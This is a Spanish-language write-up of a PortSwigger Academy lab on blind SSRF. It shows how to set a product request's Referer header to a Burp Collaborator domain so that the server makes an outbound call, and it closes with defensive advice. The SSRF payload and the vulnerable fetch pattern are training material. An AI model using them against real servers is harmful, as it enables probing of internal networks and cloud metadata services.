



# PortSwigger Web Security Academy — SSRF Lab 4

# Blind SSRF with out-of-band detection

**URL del laboratorio:**  
https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection

**Categoría:** SSRF / Blind SSRF / Out-of-band detection / Burp Collaborator  
**Objetivo:** provocar una petición HTTP desde el servidor vulnerable hacia Burp Collaborator usando la cabecera `Referer`.

---

## 1. Enunciado del laboratorio

El laboratorio se llama:

> **Blind SSRF with out-of-band detection**

El sitio utiliza un software de analítica que obtiene, es decir, hace `fetch`, a la URL especificada en la cabecera HTTP `Referer` cuando se carga una página de producto.

Para resolver el laboratorio, hay que usar esta funcionalidad para provocar una petición HTTP al servidor público de Burp Collaborator.

PortSwigger indica una nota importante: para evitar que la plataforma Academy se utilice para atacar a terceros, el firewall bloquea interacciones entre los laboratorios y sistemas externos arbitrarios. Por eso, para resolver este laboratorio, hay que usar el servidor público por defecto de Burp Collaborator.

En este lab no se trata de acceder a `/admin`, borrar usuarios ni leer una respuesta interna. Aquí la meta es simplemente demostrar que el servidor hace una petición saliente controlada por nosotros.

---

## 2. Imagen inicial del laboratorio

Al iniciar el laboratorio se abre una tienda con productos. En la parte superior aparece el título del lab y el estado `Not solved`.



La página muestra productos como `Potato Theater`, `The Splash`, `Eggtastic, Fun, Food Eggcessories` y `Six Pack Beer Belt`. Lo importante no está visualmente en la home, sino en el comportamiento que ocurre cuando se carga una página de producto.

---

## 3. Qué es SSRF

SSRF significa:

> **Server-Side Request Forgery**

En español: falsificación de peticiones del lado del servidor.

La idea es esta:

```text
Atacante
   ↓
Servidor vulnerable
   ↓
Destino elegido por el atacante
```

El atacante no hace la petición final directamente. Hace que el servidor vulnerable la haga por él.

En SSRF normal, muchas veces el servidor vulnerable devuelve al atacante la respuesta del recurso solicitado. Por ejemplo, si el servidor hace una petición interna a:

```text
http://localhost/admin
```

la aplicación puede devolver el HTML del panel de administración.

Eso es SSRF visible o no ciego, porque ves directamente el resultado.

---

## 4. Qué es Blind SSRF

En este laboratorio el caso cambia.

Aquí el servidor vulnerable sí hace una petición controlada por nosotros, pero no nos devuelve el contenido de la respuesta.

Por eso se llama:

> **Blind SSRF**

Blind significa “ciego”.

El servidor hace la petición, pero la respuesta no aparece en la respuesta HTTP que recibimos en Burp o en el navegador.

Visualmente:

```text
SSRF clásico:

Atacante
   ↓
Servidor vulnerable
   ↓
Recurso interno
   ↓
Respuesta vuelve al atacante
```

```text
Blind SSRF:

Atacante
   ↓
Servidor vulnerable
   ↓
Destino externo o interno

Pero la respuesta NO vuelve visible al atacante.
```

Entonces surge la pregunta clave:

**Si no veo la respuesta, cómo sé que el SSRF ocurrió?**

La respuesta es:

> usando detección fuera de banda.

---

## 5. Qué significa out-of-band detection

Out-of-band significa que la evidencia del ataque llega por un canal diferente al canal principal de la aplicación.

Canal principal:

```text
Tu petición al laboratorio → respuesta del laboratorio
```

Canal fuera de banda:

```text
Servidor vulnerable → Burp Collaborator
```

En este lab, la aplicación no nos devuelve el resultado del `fetch`. Pero si logramos que el servidor vulnerable haga una petición a un dominio nuestro de Burp Collaborator, Burp registrará esa conexión.

Así confirmamos que el servidor hizo la petición.

---

## 6. Qué es Burp Collaborator

Burp Collaborator es un servidor controlado por Burp Suite Professional. Sirve para detectar interacciones fuera de banda.

Puede recibir y registrar, entre otras cosas:

- Consultas DNS.
- Peticiones HTTP.
- Conexiones SMTP.

En este laboratorio se usa para detectar que el servidor vulnerable hace una petición a un subdominio tipo:

```text
198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
```

Ese dominio lo genera Burp Collaborator y está vinculado a tu instancia de Burp. Cuando alguien lo consulta, Burp lo registra.

---

## 7. Por qué suelen aparecer DNS y HTTP

Cuando un servidor quiere hacer una petición HTTP a:

```text
https://198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
```

normalmente pasan al menos dos cosas:

Primero, el servidor necesita resolver el nombre de dominio. Eso genera una interacción DNS.

```text
DNS lookup:
198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com → IP
```

Después, si la resolución funciona, el servidor realiza la petición HTTP o HTTPS.

```text
HTTP request:
GET / HTTP/1.1
Host: 198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
```

Por eso en Collaborator normalmente vemos varias filas: algunas de tipo `DNS` y otra de tipo `HTTP`.

En tu captura aparecen precisamente interacciones DNS y HTTP.



Esto confirma que el servidor vulnerable hizo una conexión saliente hacia el dominio de Collaborator.

---

## 8. Qué es la cabecera Referer

`Referer` es una cabecera HTTP que indica desde qué página venía el usuario.

Ejemplo:

```http
Referer: https://google.com/
```

Significa:

> El usuario llegó a esta página desde Google.

Otro ejemplo:

```http
Referer: https://0aef00e6034a79388107393300b100d0.web-security-academy.net/
```

Significa:

> El usuario venía desde la home del propio laboratorio.

Normalmente `Referer` es solo metadata. Es información para analítica, estadísticas, logs o marketing.

El navegador suele añadir esta cabecera automáticamente cuando navegas desde una página a otra.

---

## 9. Por qué Referer no es peligroso por sí mismo

La cabecera `Referer` no es peligrosa por existir.

En una aplicación normal, el backend puede leerla y guardarla:

```text
Usuario venía desde: https://example.com
```

Eso no implica SSRF.

El problema aparece cuando la aplicación no solo guarda el valor, sino que lo usa como URL para hacer una petición desde el servidor.

Ejemplo vulnerable:

```python
referer = request.headers["Referer"]
requests.get(referer)
```

Ahí nace el SSRF.

Porque el atacante puede enviar:

```http
Referer: https://198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
```

Y el servidor vulnerable hará:

```text
GET https://198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
```

---

## 10. El bug real del laboratorio

El enunciado dice:

> Este sitio utiliza un software de analítica que obtiene la URL especificada en la cabecera Referer cuando se carga una página de producto.

La parte importante es:

```text
cuando se carga una página de producto
```

Eso significa que la vulnerabilidad no se dispara en cualquier petición. Se dispara al cargar algo como:

```http
GET /product?productId=1 HTTP/2
```

El software de analítica procesa esa carga de producto, lee el `Referer` y hace una petición a esa URL.

Flujo conceptual:

```text
1. Usuario carga /product?productId=1
2. Backend recibe la petición
3. Backend mira la cabecera Referer
4. Software de analítica hace fetch(Referer)
5. Si el Referer apunta a Collaborator, Collaborator recibe la conexión
```

---

## 11. Diferencia entre este lab y los SSRF anteriores

En los labs anteriores de SSRF, la fuente vulnerable era un parámetro como:

```http
stockApi=http://...
```

Ese parámetro era enviado en el body de una petición `POST /product/stock`.

Aquí no es así.

En este lab la fuente vulnerable es una cabecera HTTP:

```http
Referer: https://...
```

Comparación:

| Lab | Fuente controlada | Dónde estaba | Resultado visible |
|---|---|---|---|
| SSRF contra localhost | `stockApi` | Body POST | Sí, veías `/admin` |
| SSRF contra backend interno | `stockApi` | Body POST | Sí, veías `/admin` |
| SSRF con blacklist | `stockApi` | Body POST | Sí, veías `/admin` |
| Blind SSRF OOB | `Referer` | Header HTTP | No, se detecta en Collaborator |

La diferencia clave es que aquí el SSRF no devuelve al navegador el HTML del destino. Solo provoca una conexión saliente.

---

## 12. Por qué se llama “detección fuera de banda”

Porque la confirmación no llega en la respuesta del laboratorio.

Respuesta del laboratorio:

```text
GET /product?productId=1 → página normal de producto
```

Canal externo:

```text
Servidor vulnerable → oastify.com
```

Burp Collaborator te muestra esa interacción.

Entonces, aunque el navegador no vea nada especial, Burp sí registra la conexión.

---

## 13. Preparación práctica

Para resolver el laboratorio se necesita:

- Navegador con FoxyProxy apuntando a Burp.
- Burp Suite Professional.
- Burp Collaborator.
- Intercept o HTTP history para capturar la petición a la página de producto.

El laboratorio se abre en una URL parecida a:

```text
https://0aef00e6034a79388107393300b100d0.web-security-academy.net/
```

En la home se ven productos. Entramos en cualquier producto, por ejemplo `Potato Theater`.

---

## 14. Petición vulnerable capturada

Al navegar hacia un producto, capturamos una petición como esta:

```http
GET /product?productId=1 HTTP/2
Host: 0aef00e6034a79388107393300b100d0.web-security-academy.net
Cookie: session=ahR0B6KIke29a4j0bu6FW2uwKuuBtffC
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aef00e6034a79388107393300b100d0.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

La línea clave es:

```http
Referer: https://0aef00e6034a79388107393300b100d0.web-security-academy.net/
```

Esa cabecera es controlable desde Burp. La podemos modificar antes de reenviar la petición.

---

## 15. Por qué esta es la petición correcta

El lab indica que el software vulnerable actúa cuando se carga una página de producto.

Por eso la petición correcta es:

```http
GET /product?productId=1
```

No es una petición de telemetría externa ni una petición secundaria cualquiera.

La vulnerabilidad está asociada al backend del laboratorio cuando procesa la página de producto.

Flujo correcto:

```text
GET /product?productId=1
   ↓
Backend del laboratorio
   ↓
Software analytics
   ↓
Lee Referer
   ↓
Hace fetch al Referer
```

---

## 16. Cuidado con confundirlo con telemetría del navegador

Puede aparecer alguna petición con `Referer` hacia otros dominios de PortSwigger, por ejemplo sistemas de métricas o analítica frontend.

Eso no necesariamente es la vulnerabilidad.

Una petición de telemetría puede tener un `Referer`, pero eso solo significa que el navegador indica desde dónde se originó.

La vulnerabilidad del lab no consiste en que exista una cabecera `Referer`. Consiste en que el software del servidor usa ese `Referer` como URL para hacer una petición server-side.

Frase clave:

> No cualquier request con Referer sirve. Tiene que ser una request procesada por el backend vulnerable.

En este caso, la request importante es la carga de producto.

---

## 17. Generar el dominio de Burp Collaborator

En Burp Suite Professional:

1. Abrimos la pestaña **Collaborator**.
2. Pulsamos **Copy to clipboard**.
3. Burp genera un subdominio único.

En tu práctica, el dominio fue:

```text
198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
```

Lo usaremos como valor de la cabecera `Referer`.

---

## 18. Modificar la cabecera Referer

En Burp Repeater, cambiamos:

```http
Referer: https://0aef00e6034a79388107393300b100d0.web-security-academy.net/
```

por:

```http
Referer: https://198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
```

La petición queda conceptualmente así:

```http
GET /product?productId=1 HTTP/2
Host: 0aef00e6034a79388107393300b100d0.web-security-academy.net
Cookie: session=ahR0B6KIke29a4j0bu6FW2uwKuuBtffC
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Después enviamos la petición.

---

## 19. Qué ocurre internamente al enviar la petición

Cuando mandamos esa petición, no esperamos que la respuesta del laboratorio contenga el resultado del fetch.

Lo que esperamos es que el backend haga esto:

```text
referer = "https://198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com"
analytics.fetch(referer)
```

Entonces se produce:

```text
Servidor del laboratorio
   ↓ DNS
198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
   ↓ HTTP
Burp Collaborator
```

El navegador puede recibir una página normal de producto. Eso no importa.

La prueba está en Collaborator.

---

## 20. Hacer Poll now en Burp Collaborator

Volvemos a Burp Collaborator y pulsamos:

```text
Poll now
```

Esto hace que Burp consulte si se han recibido interacciones para nuestro dominio.

En tu captura se ven interacciones como estas:

- `DNS`
- `DNS`
- `HTTP`


La columna `Payload` contiene el identificador del subdominio de Collaborator. La columna `Source IP address` muestra las IPs desde las que llegaron las interacciones.

Lo importante es que el servidor vulnerable realizó al menos una interacción HTTP hacia el dominio de Collaborator.

---

## 21. Interpretación de las interacciones

En Collaborator se observa algo parecido a:

```text
Type: DNS
Payload: f7n44smiwqd4xb0ld2t9iu3wsnyem7aw
Source IP address: 3.248.180.46
```

```text
Type: DNS
Payload: f7n44smiwqd4xb0ld2t9iu3wsnyem7aw
Source IP address: 3.248.180.99
```

```text
Type: HTTP
Payload: f7n44smiwqd4xb0ld2t9iu3wsnyem7aw
Source IP address: 34.251.122.40
```

La interacción DNS demuestra que el servidor intentó resolver el dominio.

La interacción HTTP demuestra que, además de resolverlo, llegó a realizar una petición HTTP al servidor de Collaborator.

Para este lab, esa interacción HTTP es suficiente para resolverlo.

---

## 22. Por qué el laboratorio se resuelve con una petición HTTP externa

El objetivo no es leer un panel interno. El objetivo es demostrar la vulnerabilidad Blind SSRF.

PortSwigger comprueba que el servidor del laboratorio hizo una petición hacia el dominio de Burp Collaborator.

Cuando eso ocurre, el estado del laboratorio cambia a `Solved`.



---

## 23. Diferencia entre DNS interaction y HTTP interaction

Una interacción DNS puede ocurrir aunque el servidor no llegue a hacer la petición HTTP final.

Por ejemplo, el backend puede intentar conectar, resolver el dominio, pero luego fallar por firewall, TLS, timeout, etc.

Una interacción HTTP indica que sí hubo una petición web completa hacia Collaborator.

En este laboratorio se ven ambas, lo cual es ideal.

Resumen:

```text
DNS interaction  → el servidor resolvió el dominio.
HTTP interaction → el servidor hizo la petición HTTP.
```

---

## 24. Por qué esto es “ciego” aunque Collaborator muestre datos

Es ciego desde el punto de vista de la aplicación vulnerable porque la respuesta normal del laboratorio no te muestra la respuesta del destino.

Pero deja de ser completamente invisible porque usamos un canal externo que sí podemos observar.

En otras palabras:

```text
La aplicación no te devuelve el resultado.
Collaborator sí te muestra que hubo conexión.
```

Eso es justamente la utilidad de OAST.

---

## 25. Qué significa OAST

OAST significa:

> **Out-of-band Application Security Testing**

Es una técnica para detectar vulnerabilidades que no producen una respuesta visible inmediata.

Se usa mucho para encontrar:

- Blind SSRF.
- Blind XSS.
- Blind XXE.
- Inyección de comandos ciega.
- SQL injection ciega con DNS exfiltration.

La idea general es:

```text
Payload controlado → servidor vulnerable → interacción externa observable
```

---

## 26. Por qué este tipo de SSRF es importante en entornos reales

Muchos SSRF reales no devuelven el contenido de la respuesta.

Puede ocurrir que:

- El fetch se haga en background.
- El resultado se guarde en logs.
- El resultado se ignore.
- La petición se haga desde un worker async.
- La aplicación solo registre métricas.
- Un servicio de analítica procese URLs en segundo plano.

En esos casos, si no usas detección fuera de banda, podrías pensar que no hay vulnerabilidad.

Collaborator permite ver que el servidor hizo una conexión, aunque la aplicación no muestre nada.

---

## 27. Qué impacto tendría esto fuera del laboratorio

Aunque en este lab solo se pide contactar con Collaborator, un Blind SSRF real puede permitir:

- Confirmar conectividad saliente del servidor.
- Mapear servicios internos mediante tiempos, DNS o patrones de error.
- Llegar a endpoints internos que no devuelven respuesta al atacante.
- Atacar servicios cloud metadata si no están protegidos.
- Forzar peticiones a sistemas internos.
- Provocar callbacks hacia infraestructura controlada por el atacante.

La gravedad depende de qué pueda alcanzar el servidor vulnerable y qué permitan las defensas de red.

---

## 28. Qué NO hemos hecho en este lab

No hemos leído `/admin`.

No hemos borrado usuarios.

No hemos recibido contenido interno.

No hemos usado `stockApi`.

No hemos usado `localhost`.

Este lab solo demuestra que el backend hace una petición saliente controlada mediante `Referer`.

Eso es suficiente porque el objetivo es Blind SSRF con detección OOB.

---

## 29. La pieza clave: quién hace la petición

Es fundamental no confundirse.

Cuando ponemos:

```http
Referer: https://198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
```

nuestro navegador no está visitando Collaborator por el simple hecho de enviar esa cabecera.

La petición a Collaborator la hace el servidor vulnerable, porque su software de analítica lee esa cabecera y hace `fetch`.

Flujo exacto:

```text
Tu navegador
   ↓
GET /product?productId=1
Referer: https://198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
   ↓
Servidor vulnerable
   ↓
Analytics lee Referer
   ↓
Servidor vulnerable hace GET a Collaborator
   ↓
Burp Collaborator registra DNS/HTTP
```

---

## 30. Por qué no hace falta que la víctima pulse nada

En este lab, basta con cargar una página de producto con la cabecera `Referer` manipulada.

No hay que hacer clic en un enlace del producto.

No hay que enviar formularios.

No hay que usar `Check stock`.

La acción vulnerable ocurre durante la carga de la página de producto.

---

## 31. Por qué no usamos un servidor externo propio

El enunciado indica que el firewall de Academy bloquea interacciones con sistemas externos arbitrarios.

Por eso hay que usar el servidor público por defecto de Burp Collaborator.

Si intentaras usar:

```text
https://mi-servidor.com
```

podría no funcionar aunque la vulnerabilidad exista, porque la plataforma bloquea esas salidas.

Con Collaborator/Oastify sí funciona porque está permitido para resolver el lab.

---

## 32. Posibles errores comunes

### Error 1: modificar la petición equivocada

Si modificas una petición que no carga una página de producto, puede que no se dispare el componente vulnerable.

La petición importante es:

```http
GET /product?productId=1
```

### Error 2: mirar solo la respuesta del laboratorio

En Blind SSRF la respuesta normal puede parecer totalmente normal.

Hay que mirar Burp Collaborator.

### Error 3: no pulsar Poll now

Collaborator no siempre se actualiza automáticamente. Hay que pulsar `Poll now`.

### Error 4: usar un dominio externo no permitido

Hay que usar el dominio generado por Burp Collaborator.

### Error 5: olvidar el esquema

Conviene usar una URL completa:

```text
https://SUBDOMINIO.oastify.com
```

No solo el dominio suelto.

---

## 33. Defensa correcta

La defensa no consiste en “bloquear oastify.com”. Eso sería otra blacklist débil.

La defensa correcta es no hacer peticiones server-side a URLs controladas por el usuario.

Si por alguna razón es obligatorio procesar referers:

- No hacer `fetch` del valor completo de `Referer`.
- Validar con allowlist estricta de dominios permitidos.
- Bloquear direcciones internas y rangos privados.
- Resolver DNS y verificar la IP final.
- Bloquear redirecciones hacia destinos no permitidos.
- Aislar el componente que hace peticiones salientes.
- Aplicar egress filtering.
- Registrar y alertar conexiones salientes anómalas.

Pero la regla más segura es:

> `Referer` debe tratarse como dato no confiable, no como URL segura para visitar.

---

## 34. Defensa específica para este patrón

Patrón vulnerable:

```python
referer = request.headers.get("Referer")
requests.get(referer)
```

Patrón más seguro:

```python
referer = request.headers.get("Referer")
log_referer_as_text(referer)
```

Si se necesita obtener metadata de URLs referidas, usar una cola aislada y una allowlist estricta:

```python
allowed_hosts = {"example.com", "partner.example"}
parsed = urlparse(referer)

if parsed.scheme not in {"http", "https"}:
    reject()

if parsed.hostname not in allowed_hosts:
    reject()

fetch_metadata(referer)
```

Aun así, hay que protegerse contra redirecciones, DNS rebinding y direcciones privadas.

---

## 35. Resumen técnico del laboratorio

Source:

```http
Referer: https://198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
```

Componente vulnerable:

```text
Software de analítica que hace fetch del Referer
```

Tipo de vulnerabilidad:

```text
Blind SSRF
```

Detección:

```text
Burp Collaborator / OAST
```

Evidencia:

```text
DNS interaction + HTTP interaction en Collaborator
```

Objetivo del lab:

```text
Provocar una petición HTTP al servidor público de Burp Collaborator
```

Resultado:

```text
Lab solved
```

---

## 36. Resumen paso a paso final

1. Abrimos el laboratorio.
2. Entramos en una página de producto.
3. Capturamos la petición `GET /product?productId=1` con Burp.
4. Abrimos Burp Collaborator.
5. Copiamos un payload único de Collaborator.
6. Modificamos la cabecera `Referer` de la petición del producto.
7. Ponemos como `Referer` el dominio de Collaborator:

```http
Referer: https://198q6eo4ycfqzx27fovvkg5iu900oqcf.oastify.com
```

8. Enviamos la petición.
9. Vamos a Collaborator.
10. Pulsamos `Poll now`.
11. Vemos interacciones DNS y HTTP.
12. El laboratorio se marca como resuelto.

---

## 37. Idea clave para recordar

Este lab enseña una idea muy importante:

> No todos los SSRF devuelven la respuesta al atacante.

Cuando no ves la respuesta, necesitas un canal externo para confirmar la ejecución.

Burp Collaborator convierte un SSRF ciego en algo observable.

Frase final:

> Blind SSRF no significa que no pase nada; significa que tienes que mirar en otro canal para verlo.

